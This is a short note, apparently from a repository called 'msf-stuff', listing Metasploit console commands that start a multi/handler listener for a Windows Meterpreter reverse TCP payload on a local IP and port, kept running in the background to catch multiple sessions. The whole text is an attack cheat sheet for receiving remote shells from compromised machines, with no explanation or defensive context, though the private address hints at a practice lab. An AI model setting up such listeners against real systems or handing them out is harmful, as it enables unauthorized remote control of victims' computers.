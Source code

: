 # msf-stuff

# run multihandler listener on msf
msf>use exploit/multi/handler
msf>set payload windows/meterpreter/reverse_tcp
msf>set lhost <local IP> 10.11.0.248
msf>set lport <local port> 8080
msf> set ExitOnSession false
msf>exploit -j
  
  
